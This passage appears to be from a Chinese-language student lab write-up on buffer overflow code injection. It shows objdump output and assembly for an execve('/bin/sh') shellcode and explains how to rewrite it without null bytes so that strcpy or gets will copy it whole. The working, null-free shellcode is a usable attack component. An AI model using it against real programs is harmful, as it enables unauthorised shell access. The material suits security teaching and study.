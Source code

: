 ``` language-bash
3130104006@hamsa:~/project2$ objdump -d shell_2 | grep -A20 '<main>'
0000000000401164 <main>:
  401164:	eb 30                	jmp    401196 <bbb>

0000000000401166 <aaa>:
  401166:	48 c7 c0 00 00 00 00 	mov    $0x0,%rax
  40116d:	48 89 44 24 08       	mov    %rax,0x8(%rsp)
  401172:	48 8b 3c 24          	mov    (%rsp),%rdi
  401176:	48 8d 34 24          	lea    (%rsp),%rsi
  40117a:	48 c7 c2 00 00 00 00 	mov    $0x0,%rdx
  401181:	b8 3b 00 00 00       	mov    $0x3b,%eax
  401186:	0f 05                	syscall
  401188:	b8 e7 00 00 00       	mov    $0xe7,%eax
  40118d:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
  401194:	0f 05                	syscall

0000000000401196 <bbb>:
  401196:	e8 cb ff ff ff       	callq  401166 <aaa>
  40119b:	2f                   	(bad)
  40119c:	62                   	(bad)
  40119d:	69 6e 2f 73 68 00 90 	imul   $0x90006873,0x2f(%rsi),%ebp
  4011a4:	90                   	nop
```
　　注意到，我们设计的汇编代码在翻译成机器指令后，出现了大量的`\x00`字段，这在代码注入环节是不可接受的！因为`buffer overflow`的攻击目标是那些使用了**批量写内存**操作的程序，比如常见的`gets()`、`strcpy`函数，这些函数一般具有同一个特征——**没有指定向内存中写多少字节**。举个例子，对于字符串拷贝函数`strcpy`，它以字节为单位，从源地址读取数据，向目的地址写入数据，然后源地址和目的地址同时递增，继续下一次拷贝，直至遇到`\x00`时终止操作，因为这是字符串的结束标记。由此可见，假设我们利用`strcpy`函数将之前设计的机器码注入到内存，那么仅有第一个`\x00`前面的内容(这里即`\xeb\x29\x48\xc7\c0`)能够注入，后面的内容都将被忽略，这显然是一次失败的攻击。
　　为了解决这一缺陷，我们需要人为地消除`\x00`。幸运的是，我们的攻击目标是一台`x86`的机器，`CISC`架构使得它的指令长度是不固定的，从而能够获得非常高的指令密度，我们利用这一特性，可以对设计的指令做一些小的修改，消除`\x00`的存在。具体如下所示：
``` language-bash
    movq    $0x0,%rax       ---->      xor    %rax,%rax
    movq    $0x0,%rdx       ---->      xor    %rdx,%rdx
    movl    $0x3b,%eax      ---->      movb    $0x3b,%al
```
　　其实原理很简单，无非就是消除立即数中的`\x00`字段，这可以通过使用其他指令或者分割立即数来实现。
　　最终我们得到的无`\x00`版汇编代码如下所示：
``` language-bash
# shell_3.s
main:
    jmp bbb
aaa:
    xor %rax, %rax
    movq %rax, 0x8(%rsp)
    movq 0x0(%rsp), %rdi
    lea 0x0(%rsp), %rsi
    xor %rdx, %rdx
    movb $0x3b, %al
    syscall
    xor %rax, %rax
    movb $0xe7, %al
    xor %rdi, %rdi
    syscall
bbb:
    callq aaa
    .string "/bin/sh"

    .global main
    .type main, @function
```
　　对应机器码如下所示，可以看到代码部分已经不存在`\x00`字段了：
``` language-bash
3130104006@hamsa:~/project2$ objdump -d shell_3 | grep -A20 '<main>'
0000000000401164 <main>:
  401164:	eb 21                	jmp    401187 <bbb>
```